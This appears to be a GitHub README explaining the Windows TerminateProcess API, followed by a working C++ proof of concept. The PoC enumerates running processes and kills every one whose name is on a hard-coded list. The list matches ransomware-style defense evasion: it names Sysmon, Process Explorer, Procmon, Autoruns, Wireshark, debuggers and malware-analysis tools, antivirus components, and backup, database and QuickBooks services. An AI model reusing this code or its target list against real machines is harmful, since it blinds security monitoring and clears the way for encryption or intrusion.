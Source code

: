 # Description

**`TerminateProcess`** is a Windows API function that is used to unconditionally terminate a specified process and all of its threads. This function provides a way for applications to force a process to end, without waiting for it to clean up resources.

```
BOOL TerminateProcess(
  HANDLE hProcess,
  UINT   uExitCode
);
```

In order to terminate a process, the handle must have the **`PROCESS_TERMINATE`** access right. We can obtain this handle through functions like **`OpenProcess`** for example.

# Proof of Concept

This POC enumerates all running processes and terminates process names that matches any in the predefined list of target process names. It uses the **`CreateToolhelp32Snapshot`**, **`Process32FirstW`**, and **`Process32NextW`** functions to iterate through the processes, and **`OpenProcess`** combined with **`TerminateProcess`** to stop the specified processes.

```c
#include <windows.h>
#include <tlhelp32.h>
#include <iostream>

// Array of process names to stop
static const wchar_t* processes_to_stop[] = { L"notepad.exe", L"sqlmangr.exe", L"supervise.exe", L"Defwatch.exe", L"winword.exe", L"QBW32.exe", L"QBDBMgr.exe", L"qbupdate.exe", L"axlbridge.exe", L"httpd.exe", L"fdlauncher.exe", L"MsDtSrvr.exe", L"java.exe", L"360se.exe", L"360doctor.exe", L"wdswfsafe.exe", L"fdhost.exe", L"dbeng50.exe", L"GDscan.exe", L"vxmon.exe", L"vsnapvss.exe", L"CagService.exe", L"DellSystemDetect.exe", L"ProcessHacker.exe", L"procexp64.exe", L"Procexp.exe", L"WireShark.exe", L"dumpcap.exe", L"Autoruns.exe", L"Autoruns64.exe", L"Autoruns64a.exe", L"Autorunsc.exe", L"Autorunsc64.exe", L"Sysmon.exe", L"Sysmon64.exe", L"procexp64a.exe", L"procmon.exe", L"Procmon64.exe", L"procmon64a.exe", L"ADExplorer.exe", L"ADExplorer64.exe", L"ADExplorer64a.exe", L"tcpview.exe", L"tcpview64.exe", L"tcpview64a.exe", L"VeeamDeploymentSvc.exe", L"windbg.exe", L"cdb.exe", L"cdb64.exe", L"ida64.exe", L"OllyDbg.exe", L"bintext.exe", L"TTTracerElevated.exe", L"TTDInject.exe", L"pestudio.exe", L"capa-v1.0.0-win.exe", L"netmon.exe", L"Fiddler.exe" };

// Function to stop the specified processes
void StopProcesses() {
    HANDLE hSnapShot = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);
    PROCESSENTRY32W pEntry = {};
    pEntry.dwSize = sizeof(pEntry);
    BOOL hRes = Process32FirstW(hSnapShot, &pEntry);
    while (hRes)
    {
        for (const auto& process : processes_to_stop) {
            if (lstrcmpW(process, pEntry.szExeFile) == 0) {
                HANDLE hProcess = OpenProcess(PROCESS_TERMINATE, FALSE, pEntry.th32ProcessID);
                if (hProcess != nullptr)
                {
                    TerminateProcess(hProcess, 0);
                    CloseHandle(hProcess);
                }
                break;
            }
        }
        hRes = Process32NextW(hSnapShot, &pEntry);
    }
    CloseHandle(hSnapShot);
}

int main()
{
    StopProcesses();
    std::cout << "Processes terminated successfully." << std::endl;
    return 0;
}
```

Every process that is running and contains the name of the predefined list, will get terminated.

![image](https://github.com/DebugPrivilege/WindowsAP1/assets/63166600/bfd0e370-a5ef-42ad-8dac-59e36dc8275c)

